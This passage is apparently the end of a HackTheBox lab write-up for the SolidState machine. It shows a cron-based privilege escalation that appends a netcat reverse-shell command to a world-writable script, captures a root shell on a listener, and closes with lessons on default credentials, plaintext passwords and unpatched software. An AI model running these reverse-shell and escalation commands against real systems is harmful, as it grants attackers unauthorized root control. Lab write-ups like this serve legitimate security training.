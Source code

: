 I viewew the permissions on the `/opt/tmp.py` file and everyone had `read/write/execute` privileges on it.

So, all I needed to do is change the contents of the file to send a reverse shell to my attack machine and then simply wait for the cron job to send a privileged shell back.

```
echo "os.system('/bin/nc -e /bin/bash 10.10.16.2 7777')" >> /opt/tmp.py
```

Set up a listener to receive the reverse shell.
```
nc -lvnp 7777
```

Waited for a minute or so for the cron job to run.

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/SolidState]
└─$ nc -lvnp 7777    
listening on [any] 7777 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.10.51] 53738
whoami 
root

```

And I got a root shell and went on to grab the root flag.

```
cat /root/root.txt
[REDACTED]
```

## Lessons Learned

To gain an initial foothold on the box we exploited three vulnerabilities.

1. Use of default credentials. The administrator used the default password that is shipped with the application. Since default credentials are publicly available and can be easily obtained, the user should have instead used a sufficiently long password that is difficult to crack.
2. Information disclosure. SSH credentials are stored in plaintext in one of the user’s emails. If it is necessary that the password be transmitted by email, the user should have changed the password upon the first login.
3. A Remote Code Execution (RCE) vulnerability with the James Remote server that allowed us to gain initial access to the machine. This could have been avoided if the user had patched the system and installed the most recent version of the software.
 

